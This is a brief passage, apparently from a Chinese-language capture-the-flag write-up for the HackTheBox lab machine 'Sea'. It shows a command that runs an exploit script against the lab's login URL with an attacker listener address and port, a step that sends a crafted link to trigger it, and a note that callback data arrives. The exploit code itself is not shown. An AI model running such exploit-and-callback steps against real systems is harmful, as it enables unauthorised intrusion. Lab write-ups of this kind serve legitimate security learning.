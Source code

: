 执行
```
python3 exp.py http://sea.htb/loginURL 10.10.16.3 443
```

然后粘贴命令再bs上发送链接

![](Sea_files/5.jpg)

收到返回数据

![](Sea_files/3.jpg)
